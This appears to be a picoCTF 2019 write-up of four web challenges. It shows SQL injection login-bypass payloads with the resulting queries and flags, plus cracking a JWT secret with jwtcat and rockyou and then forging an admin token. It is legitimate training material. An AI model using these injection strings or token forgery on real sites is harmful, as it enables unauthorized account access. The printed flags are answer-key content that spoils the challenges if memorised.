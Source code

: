 
<h1 align="center">Web Exploitation</h1>


<h3>Irish-Name-Repo 1 - Points: 300</h3>
There is a website running at https://2019shell1.picoctf.com/problem/4162/ (link) or http://2019shell1.picoctf.com:4162. Do you think you can log us in? Try to see if you can login!

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

Response:
username: ' or 1337=1337 --
password: ' or 1337=1337 --
SQL query: SELECT * FROM users WHERE name='' or 1337=1337 --' AND password='' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{s0m3_SQL_96ab211c}

Flag: picoCTF{s0m3_SQL_96ab211c}
```


<h3>Irish-Name-Repo 2 - Points: 350</h3>
There is a website running at https://2019shell1.picoctf.com/problem/14912/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:14912.

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

SQLi detected.

Username ===> admin' and 1337=1337 --
Password ===> admin' and 1337=1337 --

Response:
username: admin' and 1337=1337 --
password: admin' and 1337=1337 --
SQL query: SELECT * FROM users WHERE name='admin' and 1337=1337 --' AND password='admin' and 1337=1337 --'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_752d1173}

Flag: picoCTF{m0R3_SQL_plz_752d1173}
```


<h3>Irish-Name-Repo 3 - Points: 400</h3>
There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!

<p align="center"><img src="../Files/web3.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE
And caesar code for decrypt and pass !!!

Password ===> ' be 1337=1337 --

Response:
password: ' be 1337=1337 --
SQL query: SELECT * FROM admin where password = '' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_ef7eac2f}

Flag: picoCTF{3v3n_m0r3_SQL_ef7eac2f}
```


<h3>JaWT Scratchpad - Points: 400</h3>
Check the admin scratchpad! https://2019shell1.picoctf.com/problem/45158/ or http://2019shell1.picoctf.com:45158

<p align="center"><img src="../Files/jawt.png"></img></p>

``` shell
I am registered as john.
My cookie is:
jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

<p align="center"><img src="../Files/j1.png"></img></p>

``` shell
I use jwtcat for crack secret key.

root@Bl4st3r:/media/sf_D_DRIVE/picoctf19/web/jwtcat# python3 jwtcat.py -t "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" -w "/media/sf_D_DRIVE/WORDLISTS/rockyou.txt"
[INFO] JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
[INFO] Wordlist: /media/sf_D_DRIVE/WORDLISTS/rockyou.txt
[INFO] Starting brute-force attacks
jwtcat.py:110: DeprecationWarning: The 'warn' method is deprecated, use 'warning' instead
  logger.warn("Pour yourself some coffee, this might take a while..." )
[WARNING] Pour yourself some coffee, this might take a while...
[INFO] Secret key: ilovepico
[INFO] Secret key saved to location: jwtpot.potfile
[INFO] Finished in 675.0711274147034 sec

And on https://jwt.io/ 
I modified my cookie for admin user and with key ilovepico.
```

<p align="center"><img src="../Files/j2.png"></img></p>

``` shell
Modify the cookie with cookie editor and reload the page.
Flag: picoCTF{}
```

<p align="center"><img src="../Files/JaWT.png"></img></p>

``` shell
Flag: picoCTF{jawt_was_just_what_you_thought_d571d8aa3163f61c144f6d505ef2919b}
```
